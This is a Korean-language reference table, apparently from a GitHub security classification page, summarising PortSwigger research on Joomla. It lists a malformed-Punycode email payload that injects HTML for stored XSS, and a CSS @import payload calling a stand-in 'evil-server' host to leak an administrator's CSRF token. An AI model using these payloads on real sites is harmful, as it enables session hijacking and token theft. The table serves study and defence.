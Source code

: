 ### Exploitation(2)

<table>
  <thead>
    <tr>
      <th>공격 이름</th>
      <th>예시</th>
      <th>설명</th>
      <th>출처</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>HTML Tag Injection via Malformed Punycode</td>
      <td><code>x@xn--svg/-f18</code></td>
      <td>이메일 주소에 &lt; 등의 문자를 넣어 HTML 태그 생성 가능하다. 실제 파싱 결과 x@&lt;svg/로 디코딩되었다. Joomla에서 발견된 IDN 파서 버그를 이용해 HTML 삽입 공격을 수행한다. Joomla는 사용자 목록 페이지에 이메일을 출력하는데, 이때 해당 태그가 그대로 반영되어 Persistent XSS 공격이 가능하다.</td>
      <td>[1]</td>
    </tr>
    <tr>
      <td>CSS @import Token Exfiltration</td>
      <td><code>x{}@import'http://evil-server/evil.css';</code></td>
      <td>별도로 만든 두 번째 계정의 이름 필드에 외부 스타일시트를 불러오는 @import 구문을 삽입하고 중괄호 등을 추가하여, 나머지 HTML이 무효한 CSS 셀렉터로 처리 되도록 한다. HTML Tag Injection via Malformed Punycode를 통해 삽입된 &lt;style&gt; 태그를 이용해 CSS 기반 데이터 유출이 가능하다. 관리자가 사용자 목록 페이지를 열람하면, 공격자의 CSS가 로드되어 관리자 세션의 CSRF 토큰을 외부로 전송한다.</td>
      <td>[1]</td>
    </tr>
  </tbody>
</table>

## 분류에 해당하는 문서

\[1] [https://portswigger.net/research/splitting-the-email-atom](https://portswigger.net/research/splitting-the-email-atom)

## 기타 참고문헌

\[A] [https://datatracker.ietf.org/doc/html/rfc2047](https://datatracker.ietf.org/doc/html/rfc2047)
